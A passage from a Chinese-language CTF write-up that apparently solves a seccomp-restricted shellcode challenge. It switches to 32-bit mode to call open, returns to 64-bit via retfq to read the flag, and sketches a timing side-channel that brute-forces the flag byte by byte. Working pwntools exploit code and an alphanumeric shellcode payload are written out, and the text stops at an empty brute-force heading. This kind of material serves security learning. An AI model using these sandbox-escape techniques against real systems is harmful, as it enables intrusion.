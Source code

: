 进入32位模式,  使用open, 但是read仍然在64位, 于是再切回去, 

而且这一次输入shellcode已经没有限制了, 于是可以直接shellcraft生成, 先打开文件,  然后retfq回到64位, 

这个回到64位以后的地址需要斟酌下,  32位没有办法构造输入, 那么sc2应该是:

```
sc2 = openflag + to64 + readflag  + ...
```

我们调试确定一下to64这一段中retfq的返回ip地址, 

![image-20210825182116194](https://i.loli.net/2021/08/25/rbLcgQqJAZh72fs.png)

成功读取到flag, 由于没有write, 下一步就是使用测信道思路, 通过时间爆破flag, 

目前的sc2部分:

```python

def exp():
	payload1 = "Sh0666TY1131Xh333311k13XjiV11Hc1ZXYf1TqIHf9kDqW02DqX0D1Hu3M153f3b0s2F0s2B0Z2l0l2L072I0X1P0i2w134l1M1m3k2F090o7m0L0x5o3g2p0p2I0r2q0Y2C2D060y1L8N2E124k7m0C0x3n3d2O0x2M0p2F2s2p0u2O0s2G0z5K00"
	gdb.attach(cn, cmd)
	sl(payload1)
	pause()

	openflag = asm32(shellcraft.i386.linux.open("./flag"))
	ret264 = asm32('''
		push 0x33; 
		push 0x40404065;
		// retfq;
		''') + b"H\xcb"
	readflag = asm64(shellcraft.amd64.linux.read(3, 0x40404840, 0x100))
	check = b'' 
	sc2 = openflag + ret264 + readflag + check
	sl(sc2)
```

## 测信道时间爆破flag

这一段思路就是cmp和jz, 如果这一位比较成功, 则死循环, 证明爆破成功, 

这样可以一个个字符爆破出来,

```python
def exp(reloc, ch):
	if reloc == 0:
	    shellcode = "cmp byte ptr[rsp+{0}], {1}; jz $-4; ret".format(reloc, ord(ch))
	else:
	    shellcode = "cmp byte ptr[rsp+{0}], {1}; jz $-5; ret".format(reloc, ord(ch))
	check = asm(shellcode, arch='amd64', os='linux')
```

爆破部分编写:
